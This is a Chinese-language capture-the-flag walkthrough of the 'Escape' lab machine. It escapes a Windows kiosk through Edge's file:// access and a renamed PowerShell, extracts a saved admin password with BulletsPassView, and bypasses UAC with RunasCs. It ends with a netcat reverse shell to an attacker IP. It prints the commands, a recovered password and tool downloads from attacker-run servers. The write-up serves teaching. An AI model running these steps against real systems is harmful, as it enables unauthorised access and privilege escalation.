## VulnEscape

```
1.靶机为 Windows Assigned Access（Kiosk）环境，仅允许运行 Edge

2.通过 Edge 的 file:// 协议逃逸至本地文件系统
file:///c://Windows//System32//WindowsPowerShell//v1.0//

3.发现 Remote Desktop Plus，定位到 profiles.xml 中的加密凭据
PS C:\Program Files (x86)\Remote Desktop Plus> copy -r C:\_admin\ C:\Users\kioskUser0\Downloads\

4.在 Remote Desktop Plus 运行并加载 profile 的前提下，使用 BulletsPassView 从进程内存中解密 DPAPI 凭据

5.获得 admin 明文密码，但受 UAC 限制，仅拥有受限 token

6.现场编译 RunasCs.cs，使用 RunasCs 绕过 UAC 获取高完整性管理员 token
PS C:\temp> C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:exe /out:RunasCs.exe RunasCs.cs

7.在白名单限制下伪装/替换被允许的二进制，执行 payload（nc / PowerShell）
PS C:\temp> .\RunasCs.exe admin Twisting3021 --bypass-uac --logon-type 8  "C:\temp\nc64.exe 10.10.17.121 1235 -e cmd.exe"

8.最终获得完整管理员权限 shell
```
```
[★]$ nmap -sV -sC 10.129.234.51
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-19 00:17 CST
Nmap scan report for 10.129.234.51
Host is up (0.011s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: ESCAPE
|   NetBIOS_Domain_Name: ESCAPE
|   NetBIOS_Computer_Name: ESCAPE
|   DNS_Domain_Name: Escape
|   DNS_Computer_Name: Escape
|   Product_Version: 10.0.19041
|_  System_Time: 2025-12-19T06:17:36+00:00
|_ssl-date: 2025-12-19T06:17:41+00:00; -34s from scanner time.
| ssl-cert: Subject: commonName=Escape
| Not valid before: 2025-12-18T06:14:42
|_Not valid after:  2026-06-19T06:14:42
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -34s, deviation: 0s, median: -34s
```
#### 扫描显示端口3389打开，这是默认的Microsoft远程桌面端口。让我们试着使用xfreerdp实用程序通过RDP连接到远程机器。
#### Linux下的操作：//不建议，尽管HTB在Pwnbox允许了windows环境，但是Pwnbox始终在浏览器上开启，使用不了系统上用键WIN键，本次的靶机就是考验无法点开任何功能的环境
```
[★]$ xfreerdp /v:10.129.234.51 /dynamic-resolution -sec-nla
```
#### windows下的操作：
```
【1】在本机MacBook Pro 搜索OpenVPN Connect macOS 下载OpenVPN Connect.app 完成导入.ovpn文件

【2】打开Parallels Desktop的win11, Win + R：输入mstsc,连接远程桌面连接
在连接时，我们看到一条消息，说明我们可以使用用户名KioskUser0和没有密码。
【3】按键fn + command + X  
```


#### 根据我多次经验，被迫看韩文打靶机，选项就点击 白 蓝 蓝


#### 在URL，继续输入file:///C://

#### 让我们输入file:///C://作为URL
#### 我们注意到一个名为_admin的文件夹，并为以后注意它。暂时，让我们导航到哪里PowerShell位于C:\Windows\System32\WindowsPowerShell\v1.0\

#### 点击下载powershell.exe,点开文件夹，改名字为msedge,就可以双击打开了

#### 允许在此自助服务终端上运行的 Edge 二进制文件的名称是什么？mesdge.exe

#### 心得：这个windows会有个很多次之后的权限限制,要把它关掉，会影响powershell程序改名

### Privilege Escalation
#### 在这个文件夹中，我们看到了几个有趣的文件夹以及一个名为profiles.xml的文件。

#### 复制完文件夹后，让我们从Remote Desktop Plus加载profiles.xml
```
PS C:\Users\kioskUser0\Downloads> cd 'C:\Program Files (x86)\Remote Desktop Plus'  
PS C:\Program Files (x86)\Remote Desktop Plus> copy -r C:\_admin\ C:\Users\kioskUser0\Downloads\
PS C:\Program Files (x86)\Remote Desktop Plus> dir
  Directory: C:\Program Files (x86)\Remote Desktop Plus
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/13/2018  10:47 PM         267264 rdp.exe
PS C:\Program Files (x86)\Remote Desktop Plus> ./rdp.exe
```

#### 让rdp.exe停在这个界面就好：

#### 我们无法看到实际的密码，因为它在应用程序窗口中被替换为*，但是，有一个一个叫做BulletsPassView的程序，我们可以用它来暴露隐藏在后面的密码Windows中的星星。让我们从本地下载这个应用程序，并使用PowerShell从远程机器
https://www.nirsoft.net/utils/bullets_password_view.html

```
MacBook-Pro Downloads % unzip bulletspassview-x64.zip 
Archive:  bulletspassview-x64.zip
  inflating: BulletsPassView.exe     
  inflating: BulletsPassView.chm     
  inflating: readme.txt            
MacBook-Pro Downloads % python3 -m http.server 8000
Serving HTTP on :: port 8000 (http://[::]:8000/) ...

```
```
使用BulletsPassView.exe的心得
1.得到portect.xml要下载到路径Downloads，方便rdp.exe使用它；它无法直接使用命令解开，哪怕是已经有windows环境；得靠工具
2.要先开启rdp.exe,在到路径temp开启BulletsPassView.exe，如果BPV.exe没有显示密码，就看一下rdp.exe会有显示
3.不要多开rdp.exe，一个就行，不要关闭rdp.exe
4.BPV.exe的版本一定要对，用到的是Download BulletsPassView for x64
注：
Secure=False 的真实含义
在 Remote Desktop Plus 里：
Secure=True → DPAPI（用户 + 机器绑定）
Secure=False → 程序内置密钥对称加密
密钥是写死在程序里的
```
#### 在远程机器的C:\目录下创建一个名为temp的文件夹后，让我们在本地启动一个Python web服务器，在我们下载BulletsPassView的同一个文件夹中。
```
PS C:\Program Files (x86)\Remote Desktop Plus> cd ../..
PS C:\> mkdir temp
Directory: C:\
Mode                 LastWriteTime         Length Name
d-----        12/22/2025   1:32 AM                temp
PS C:\> cd temp
PS C:\temp> wget http://10.10.14.190:8002/BulletsPassView.exe -O BPV.exe
PS C:\temp> ls
Directory: C:\temp
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        12/22/2025   1:37 AM          71776 BPV.exe
PS C:\temp> ./BPV.exe
```

#### 这里不显示，但是看一眼rdp.exe就有了（在BVP.exe 的Options的第四个，可以让rdp.exe显示密码

#### 程序显示隐藏密码为Twisting3021。注意：为了正确显示密码，远程桌面Plus需要在编辑中前面展示的配置文件页面。我们可以推测这个密码属于名为admin的用户。
### 准备UAC绕过
```
PS C:\Users\kioskUser0> cd ..
PS C:\Users> net user admin
User name                    admin
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never
Password last set            2/3/2024 2:45:01 AM
Password expires             Never
Password changeable          2/3/2024 2:45:01 AM
Password required            No
User may change password     Yes
Workstations allowed         All
User profile
Home directory
Last logon                   4/10/2025 10:26:42 PM
Logon hours allowed          All
Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```
### 工具下载
#### 我们很快发现这个用户是Administrators组的成员。让我们尝试登录到使用此用户远程系统。为此，我们可以使用RunasCs。在本地下载，然后上传到远程系统通过现有的Python web服务器。
https://github.com/antonioCoco/RunasCs
```
-MacBook-Pro Downloads % curl -O https://raw.githubusercontent.com/antonioCoco/RunasCs/refs/heads/master/RunasCs.cs

MacBook-Pro Downloads % python3 -m http.server 8026
Serving HTTP on :: port 8026 (http://[::]:8026/) ...
```
```
PS C:\temp> wget http://10.10.17.121:8026/RunasCs.cs -O RunasCs.cs
```
#### 我们也可以使用Windows版本的Netcat来将一个反向shell发送回我们的机器。让我们把这个也上传。
#### 下载nc的连接，nc 下载不对命令也执行不了
https://github.com/int0x33/nc.exe/tree/master
```
PS C:\temp> wget http://10.10.17.121:8026/nc64.exe -O nc64.exe
```
#### 需要现场编译RunasCs.cs为RunasCs.exe
```
PS C:\> where csc
PS C:\> ls C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe //csc常见的位置
Directory: C:\Windows\Microsoft.NET\Framework\v4.0.30319
Mode                 LastWriteTime         Length Name
-a----         3/11/2024   9:00 PM        2154992 csc.exe
PS C:\> cd temp
PS C:\temp> C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:exe /out:RunasCs.exe RunasCs.cs
Microsoft (R) Visual C# Compiler version 4.8.9232.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.
This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240
```

```
PS C:\temp> .\RunasCs.exe admin Twisting3021 "C:\temp\nc64.exe 10.10.17.121 1234 -e cmd.exe"
[*] Warning: The logon for user 'admin' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
```
### 最后一步
#### User Account Control（用户帐户控制） 在 Windows 中，即使是管理员用户，默认获得的也是受限令牌；要拿到完整管理员权限的 shell，就必须绕过 UAC（--bypass-uac)
```
PS C:\temp> .\RunasCs.exe admin Twisting3021 --bypass-uac --logon-type 8  "C:\temp\nc64.exe 10.10.17.121 1235 -e cmd.exe"

```
#### 反弹连接：
```
MacBook-Pro Downloads % nc -lv 1234

C:\Users\Administrator\Desktop>type root.txt
type root.txt

C:\Users\Administrator\Desktop>whoami
whoami
escape\admin
```
